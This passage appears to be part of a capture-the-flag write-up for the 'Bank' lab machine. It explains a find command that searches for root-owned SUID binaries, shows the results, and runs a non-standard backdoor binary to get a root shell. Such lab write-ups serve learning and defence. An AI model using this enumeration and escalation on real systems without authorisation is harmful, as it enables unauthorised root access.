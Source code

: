     
    find / -type f -user root -perm -4000 2>/dev/null
    

That will:

  * search all subdirectories of `/` (the entire file system)
  * `-type f` \- only return files
  * `-user root` \- only return files owned by root
  * `-perm -4000` \- files with SUID bit set
  * `2>/dev/null` \- don’t show errors

On Bank, it finds several items:

    
    
    www-data@bank:/$ find / -type f -user root -perm -4000 2>/dev/null
    /var/htb/bin/emergency
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/bin/chsh
    /usr/bin/passwd
    /usr/bin/chfn
    /usr/bin/pkexec
    /usr/bin/newgrp
    /usr/bin/traceroute6.iputils
    /usr/bin/gpasswd
    /usr/bin/sudo
    /usr/bin/mtr
    /usr/sbin/pppd
    /bin/ping
    /bin/ping6
    /bin/su
    /bin/fusermount
    /bin/mount
    /bin/umount
    

The first one is particularly interesting and non-standard,
`/var/htb/bin/emergency`.

#### Shell

Running `emergency` just returns a root shell:

    
    
    www-data@bank:/$ /var/htb/bin/emergency                           
    # id
    uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
    

The admin must have left themself a backdoor. My effective uid is now root,
which allows me to read `root.txt`:
